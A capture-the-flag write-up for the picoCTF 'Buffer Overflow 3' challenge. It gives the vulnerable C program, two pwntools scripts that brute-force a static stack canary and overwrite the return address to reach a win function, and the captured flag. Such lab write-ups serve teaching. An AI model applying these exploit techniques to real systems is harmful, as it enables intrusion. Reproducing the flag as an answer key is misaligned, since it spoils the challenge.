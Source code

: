 # Buffer Overflow 3
 
Again, a buffer overflow to a win function, but now with a *static* canary.

## Source Code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64
#define CANARY_SIZE 4

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); // size bound read
  puts(buf);
  fflush(stdout);
}

char global_canary[CANARY_SIZE];
void read_canary() {
  FILE *f = fopen("canary.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'canary.txt' in this directory with your",
                    "own debugging canary.\n");
    exit(0);
  }

  fread(global_canary,sizeof(char),CANARY_SIZE,f);
  fclose(f);
}

void vuln(){
   char canary[CANARY_SIZE];
   char buf[BUFSIZE];
   char length[BUFSIZE];
   int count;
   int x = 0;
   memcpy(canary,global_canary,CANARY_SIZE);
   printf("How Many Bytes will You Write Into the Buffer?\n> ");
   while (x<BUFSIZE) {
      read(0,length+x,1);
      if (length[x]=='\n') break;
      x++;
   }
   sscanf(length,"%d",&count);

   printf("Input> ");
   read(0,buf,count);

   if (memcmp(canary,global_canary,CANARY_SIZE)) {
      printf("***** Stack Smashing Detected ***** : Canary Value Corrupt!\n"); // crash immediately
      exit(-1);
   }
   printf("Ok... Now Where's the Flag?\n");
   fflush(stdout);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  read_canary();
  vuln();
  return 0;
}
```
## Solution

Reading the program, it places a canary onto the stack, based on what's in the file, after asking how long your message is. The length of the message doesn't matter, since the length can be more than the buffer size.

After a bit of trial and error, the furthest we can go without overwriting the stack canary is `64` characters. From here, we can brute force the canary.

Assuming the canary is only comprised of characters, we can simply try every character until one works. The list of characters is:
`abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ`

Now, our program to brute force the canary (using process as our testing file):

```python
from pwn import *

inputs = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
canary = ""

for i in range(4):
	for i in range(len(inputs)):
		c = process("./vuln")
		payload = "a" * 64
		payload += canary
		payload += inputs[i]
		c.sendline(str(len(payload)))
		c.sendline(payload)
		line = c.readline()
		line = c.readline()
		if "*" not in line:
			canary += inputs[i]
			break

print(canary)
```

When running this on the server, you get the canary `BiRd`

We then put this into our program, and a bit of debugging using gdb, we get this program:

```python
from pwn import *

inputs = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"

c = remote("saturn.picoctf.net", 51126)


payload = "a" * 64
payload += "BiRd"
payload += "c" * 16
payload += p32(0x08049336)
c.sendline(str(len(payload)))

c.sendline(payload)
c.interactive()
```

This nets us our flag: `picoCTF{Stat1C_c4n4r13s_4R3_b4D_9602b3a1}`

(which they are!)